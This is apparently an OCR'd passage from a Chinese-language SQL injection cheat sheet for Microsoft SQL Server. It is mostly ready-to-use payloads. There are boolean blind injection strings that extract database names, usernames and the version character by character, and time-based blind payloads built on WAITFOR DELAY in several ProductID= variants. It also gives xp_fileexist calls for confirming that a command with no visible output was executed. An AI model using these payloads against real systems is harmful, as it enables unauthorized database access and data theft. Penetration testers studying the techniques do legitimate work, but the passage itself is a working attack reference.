 ```
?id=1' and ascii(substring((select db_ name(1)),1,1))> 64--

AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 

AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

### 时间盲注

使用延时函数：`WAITFOR DELAY`

```bash
# 语法: WAITFOR DELAY '0:0:n'
#表⽰延迟4秒
WAITFOR DELAY '0:0:4' --  
 
 
# IF exists ()⼦句
IF exists () WAITFOR DELAY '0:0:5'
```

```
?id= 1';if(2>1) waitfor delay '0:0:5'--

?id= 1';if(ASCII(SUBSTRING((select db_name(1)),1,1))> 64) waitfor delay
```

```
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'     comment:   --
```





## 文件操作

判断文件是否存在

```bash
exec xp_fileexist "C:\\users\\public\\test.txt"

返回0表示文件不存在，1表示存在。

#在执行无回显命令时，把执行结果重定向到一个文件，再用xp_fileexist判断该文件是否存在，就可知道命令是否执行成功。

```
